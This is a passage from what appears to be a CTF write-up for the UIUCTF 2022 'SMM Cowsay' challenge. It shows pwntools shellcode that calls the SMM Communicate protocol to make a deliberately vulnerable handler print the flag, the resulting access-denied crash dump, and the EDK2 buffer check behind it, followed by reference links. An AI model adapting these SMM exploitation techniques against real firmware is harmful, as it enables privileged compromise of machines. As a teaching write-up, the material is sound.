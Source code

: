 We can now craft a message for `SmmCowsay` containing a pointer to the flag and
let it print it for us by calling `mSmmCommunication->Communicate` with the
right arguments. We can see the layout of `EFI_SMM_COMMUNICATE_HEADER` using
`pahole` again, inspecting the UEFI Specification PDF, or looking at EDK2 source
code.

```python
# Taken from 0003-SmmCowsay-Vulnerable-Cowsay.patch
gEfiSmmCowsayCommunicationGuid = 0xf79265547535a8b54d102c839a75cf12

code = asm(f'''
    /* Communicate(mSmmCommunication, &buffer, NULL) */
    mov rcx, {mSmmCommunication}
    lea rdx, qword ptr [rip + buffer]
    xor r8, r8
    mov rax, {Communicate}
    call rax

    test rax, rax
    jnz fail
    ret

fail:
    ud2

buffer:
    .octa {gEfiSmmCowsayCommunicationGuid} /* Buffer->HeaderGuid */
    .quad 8                                /* Buffer->MessageLength */
    .quad 0x44440000                       /* Buffer->Data */
''')
conn.sendline(code.hex().encode() + b'\ndone')

# Check output to see if things work
conn.interactive()
```

Wait a second though. This code does not work!

```
Running...
!!!! X64 Exception Type - 06(#UD - Invalid Opcode)  CPU Apic ID - 00000000 !!!!
RIP  - 000000000517D120, CS  - 0000000000000038, RFLAGS - 0000000000000286
RAX  - 800000000000000F, RCX - 00000000000000B2, RDX - 00000000000000B2
...
```

We hit the `ud2` in the `fail:` label and got a nice register dump, because
`Communicate` returned `0x800000000000000F`: which according to the UEFI Spec
(Appendix D - Status Codes) means `EFI_ACCESS_DENIED`.

Indeed there is a gotcha: even though the challenge author explicitly added an
EDK2 patch to mark all all memory as RWX in the SMM page table
(`0005-PiSmmCpuDxeSmm-Open-up-all-the-page-table-access-res.patch`), there is
still a sanity check being performed on the SMM communication buffer,
[as we can see in EDK2 source code][edk2-buffer-check], which errors out if the
buffer resides in untrusted or invalid memory regions (like the one used for our
shellcode). *Thanks to YiFei for pointing this out since I had not actually
figured out the real reason behind the "access denied" when working on the
challenge*.


[smm1]: #smm-cowsay-1
[smm2]: #smm-cowsay-2
[smm3]: #smm-cowsay-3
[expl1]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeup_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_1.py
[expl2]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeup_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_2.py
[expl3]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeup_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_3.py
[tweet]:                               https://twitter.com/MeBeiM/status/1554849894237609985
[uiuctf]:                              https://ctftime.org/event/1600/
[uiuctf-archive]:                      https://2022.uiuc.tf/challenges
[author]:                              https://github.com/zhuyifei1999
[wiki-smm]:                            https://en.wikipedia.org/wiki/System_Management_Mode
[intel-sdm]:                           https://www.intel.com/content/www/us/en/developer/articles/technical/intel-sdm.html
[uefi-spec]:                           https://uefi.org/specifications
[uefi-spec-pdf]:                       https://uefi.org/sites/default/files/resources/UEFI_Spec_2_9_2021_03_18.pdf
[man-cowsay]:                          https://manned.org/cowsay.1
[man-pahole]:                          https://manned.org/pahole.1
[x64-call]:                            https://docs.microsoft.com/en-us/cpp/build/x64-calling-convention?view=msvc-170
[x86-rsm]:                             https://www.felixcloutier.com/x86/rsm
[x86-rdrand]:                          https://www.felixcloutier.com/x86/rdrand
[gh-pwntools]:                         https://github.com/Gallopsled/pwntools
[gh-ropgadget]:                        https://github.com/JonathanSalwan/ROPgadget
[gh-edk2]:                             https://github.com/tianocore/edk2
[gh-edk2-securityex]:                  https://github.com/jyao1/SecurityEx
[gh-qemu]:                             https://github.com/qemu/qemu
[qemu-memtxattrs]:                     https://github.com/qemu/qemu/blob/v7.0.0/include/exec/memattrs.h#L35
[edk2-SystemTable]:                    https://edk2-docs.gitbook.io/edk-ii-uefi-driver-writer-s-guide/3_foundation/33_uefi_system_table
[edk2-SmiHandlerRegister]:             https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdeModulePkg/Core/PiSmmCore/Smi.c#L213
[edk2-EfiRuntimeServicesData]:         https://github.com/tianocore/edk2/blob/0ecdcb6142037dd1cdd08660a2349960bcf0270a/BaseTools/Source/C/Include/Common/UefiMultiPhase.h#L25
[edk2-SmmCommunicationCommunicate]:    https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L110
[edk2-EFI_SMM_COMMUNICATION_PROTOCOL]: https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L267
[edk2-copy-msg]:                       https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L547
[edk2-smi-entry]:                      https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiEntry.nasm#L89
[edk2-gadget]:                         https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/Library/BaseLib/X64/LongJump.nasm#L54
[edk2-MdePkg]:                         https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/MdePkg.dec
[edk2-buffer-check]:                   https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdePkg/Library/SmmMemLib/SmmMemLib.c#L163
[edk2-gdt]:                            https://github.com/tianocore/edk2/blob/2812668bfc121ee792cf3302195176ef4a2ad0bc/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiException.nasm#L31
